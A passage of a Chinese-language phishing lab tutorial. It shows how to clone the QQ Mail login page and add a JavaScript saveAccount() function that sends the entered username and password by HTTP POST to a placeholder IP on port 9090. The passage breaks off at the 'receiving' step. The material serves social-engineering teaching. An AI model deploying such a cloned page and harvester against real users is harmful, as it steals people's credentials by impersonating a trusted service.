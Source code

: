 从社会工程学的角度来说，往往由于用户的疏忽大意，不小心访问了错误 的网站，而该网站的页面与正常网站并无差别，用户在输入个人私密信息后， 用户的敏感信息便被非法的窃取。

## 钓鱼

1、构造钓鱼页面

（1 ）打开 https://mail.qq.com/ ，右键快捷菜单保存 QQ 邮箱首页，保存网页的全部内容， 如图所示。

![image-20220412234309017](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623221723691-1450223383.png)

![image-20220412234050998](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623221727616-889247546.png)



（2 ）用文本编辑器打开文件夹中的 xlogin.html 文件，定位到登录按钮  （login_button）代码处，为其添加单击事件。同时，在`<script>`区域中添加单击click事件响应函数， 将得到的账号和密码通过 HTTP/POST 方法发送至目标服务器，并将其中的 IP 地址修改为实验所用主机的 IP 地址， 如图所示。

在代码中我们可以找到 `<input >`标签，这是一种用于为基于 Web 的表单创建交互式控件的HTML `<input>` 元素，而其又同时指定了type为`submit`，表明这是用于提交表单的按钮。

```js
 onclick="saveAccount()"
```

![image-20220413000145345](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623221723912-1055318077.png)

接下来编写 `saveAccount()`函数，该会在按钮点击时间时触发，其是通过id取值，随后建立HTTP请求将信息发送到指定位置。通过浏览器调试我们可以发现，id为'u'的正是第一个输入框，同样，id为'p'的是第二个输入框。

![image-20220413001435669](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623221724165-2089988965.png)

```js
function saveAccount() {
	// 通过 id 获取元素值
	var user = document.getElementById("u").value;
	var passwd = document.getElementById("p").value;
	// 创建XMLHttpRequest 对象
	var httpRequest = new XMLHttpRequest();
	// 建立一个 HTTP 异步请求
	httpRequest.open('POST', 'http://XXX.XXX.XXX.XXX:9090', true);
	// 设置HTTP请求头部 C..参数的值为ap...
	httpRequest.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	// 	发送请求
	httpRequest.send('user=' + user + 'pwd=' + passwd);
}
```

<center>
    <img style="border-radius: 0.3125em;
    box-shadow: 0 2px 4px 0 rgba(34,36,38,.12),0 2px 10px 0 rgba(34,36,38,.08);" 
    src="Fishing.assets/image-20220413002200349.png">
    <br>
    <div style="color:orange; border-bottom: 1px solid #d9d9d9;
    display: inline-block;
    color: #999;
    padding: 3px;">为登录按钮添加单击事件和响应函数</div>
</center>
## 接收
